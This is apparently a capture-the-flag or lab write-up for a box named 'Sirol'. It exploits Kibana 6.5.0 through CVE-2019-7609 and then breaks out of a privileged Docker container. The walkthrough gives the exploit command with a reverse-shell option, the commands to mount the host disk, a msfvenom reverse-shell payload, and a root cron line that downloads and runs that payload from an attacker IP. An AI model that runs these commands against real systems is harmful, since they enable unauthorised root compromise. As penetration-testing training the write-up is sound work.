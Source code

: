 # Sirol

### Enumeration

```
5601/tcp  open   esmagent?
```

[http://192.168.94.54:5601/app/kibana](http://192.168.94.54:5601/app/kibana) - kibana 6.5.0

### Initial Access

There was a RCE vulnerability in 2019 for Kibana versions < 6.6.0&#x20;

[https://github.com/LandGrey/CVE-2019-7609/](https://github.com/LandGrey/CVE-2019-7609/)

```
$ python CVE-2019-7609-kibana-rce.py -u http://192.168.94.54:5601 -host 192.168.49.94 -port 80 --shell
```

### PrivEsc

Looks like, we are in a container.

[https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation](https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation)

Well configured docker containers won't allow command like `fdisk -l`. However on miss-configured docker command where the flag `--privileged` is specified, it is possible to get the privileges to see the host drive.

```
root@0873e8062560:/# fdisk -l
fdisk -l
Disk /dev/sda: 20 GiB, 21474836480 bytes, 41943040 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
Disklabel type: dos
Disk identifier: 0x16939df4

Device     Boot    Start      End  Sectors Size Id Type
/dev/sda1  *        2048 37750783 37748736  18G 83 Linux
/dev/sda2       37752830 41940991  4188162   2G  5 Extended
/dev/sda5       37752832 41940991  4188160   2G 82 Linux swap / Solaris
```

```
mkdir -p /mnt/root
mount /dev/sda1 /mnt/root
```

We can access the filesystem of the host via /mnt/root directory.

Once the volume is mounted, we can create a cron job. To get root shell.

```
$ msfvenom -p linux/x64/shell_reverse_tcp -f elf -o shell LHOST=192.168.1.1 LPORT=80
echo '* * * * * root /bin/bash -c "/usr/bin/wget http://192.168.1.1/shell -O /tmp/shell && chmod 777 /tmp/shell && /tmp/shell"' > /mnt/root/snaps/gcron_enabled
```
